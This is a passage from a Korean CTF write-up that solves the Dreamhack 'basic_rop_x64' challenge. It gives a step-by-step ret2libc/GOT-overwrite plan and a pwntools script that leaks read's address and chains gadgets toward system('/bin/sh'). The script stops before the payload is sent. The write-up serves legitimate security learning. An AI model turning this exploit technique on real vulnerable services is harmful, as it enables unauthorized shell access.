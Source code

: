<p align="center">
	<a href="/assets/images/TIL220722/Untitled (1).png">
	<img src="/assets/images/TIL220722/Untitled (1).png" width="700">
    </a>
</p>
이를 통해 `system`과 `read` 사이의 offset을 파악하여 `system`의 address를 계산할 수 있다.

### Exploit

큰 흐름은 위의 예제와 같다. 오히려 canary 획득 과정이 없어 더 간단하다.

1. `puts(read_got)`를 실행해 `read`**의 address**를 얻는다. 이로부터 `system`**의 address도 계산**한다.
2. `read(0, read_got, 0x10)`을 실행해 `read_got`**를** `system`**의 address와 “/bin/sh”로 overwrite**한다.
3. `read(”/bin/sh”)`를 실행하면 GOT가 overwrite되어 있기 때문에 `system("/bin/sh")`**가 실행**된다.

```python
from pwn import *

#p = process('./basic_rop_x64')
p = remote("host3.dreamhack.games", 10061)

e = ELF('./basic_rop_x64')
libc = ELF('/lib/x86_64-linux-gnu/libc-2.27.so')

puts_plt = e.plt['puts']
puts_got = e.got['puts']
read_plt = e.plt['read']
read_got = e.got['read']
pop_rdi = 0x0000000000400883
pop_rsi_pop_r15 = 0x0000000000400881
ret = 0x00000000004005a9

payload = b"A"*(0x40 + 0x8)

# puts(read_got)
payload += p64(pop_rdi) + p64(read_got)
payload += p64(puts_plt)

# read(0, read_got, 0x10)
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_pop_r15) + p64(read_got) + p64(0)
payload += p64(read_plt)

# read("/bin/sh") == system("/bin/sh")
payload += p64(pop_rdi) + p64(read_got + 0x8)
payload += p64(read_plt)
```